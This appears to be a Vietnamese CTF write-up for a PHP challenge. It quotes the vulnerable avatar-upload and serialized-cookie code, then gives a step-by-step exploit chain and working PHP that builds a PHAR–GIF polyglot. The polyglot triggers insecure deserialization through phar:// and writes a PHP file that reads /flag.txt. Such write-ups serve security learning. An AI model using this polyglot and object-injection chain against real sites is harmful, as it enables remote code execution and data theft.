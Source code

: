     ```php
    if (move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file)) {
      $getMD5 = md5_file($target_file);
      checkMd5AndLog($getMD5);
      $conn->updateAvatar($username, $fileName);
      header('Location: /?page=home');
    }
    ```
    
    Cookie định dạng `base64(serialize($user))`:
    
    `login.php`
    
    ```php
    $data = base64_encode(serialize($user));
    header("Set-Cookie: user=$data");
    header("Location: /?page=home");
    ```
    

---

## Chuỗi khai thác

1. Đăng ký và đăng nhập để có thư mục `upload/testq/`.
2. Tạo **PHAR–GIF polyglot**. Metadata chứa object `Logger` sao cho destructor append PHP vào `logMD5.php`.
3. Upload `avatar.gif` vào `upload/testq/avatar.gif`.
4. Tạo cookie `user` là object `LogFile` trỏ tới `phar://upload/testq/avatar.gif/a`.
5. Gọi trang có `unserialize(cookie)` để kích hoạt:
    - `LogFile->__destruct()` → `md5_file('phar://…')` → parse PHAR → **unserialize metadata**.
    - `Logger->__destruct()` chạy và **append** PHP vào `logMD5.php`.
6. Truy cập `logMD5.php` để in flag.

---

## Tạo PHAR–GIF polyglot

```php
<?php
class Logger { public $logs; public $request; }

$payload = new Logger();
$payload->logs    = 'logMD5.php';
$payload->request = '<?php readfile("/flag.txt"); ?>';
@unlink('p.phar');
$phar = new Phar('p.phar');
$phar->startBuffering();
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($payload);
$phar->addFromString('a', 'x');
$phar->stopBuffering();
rename('p.phar','avatar.gif');
```

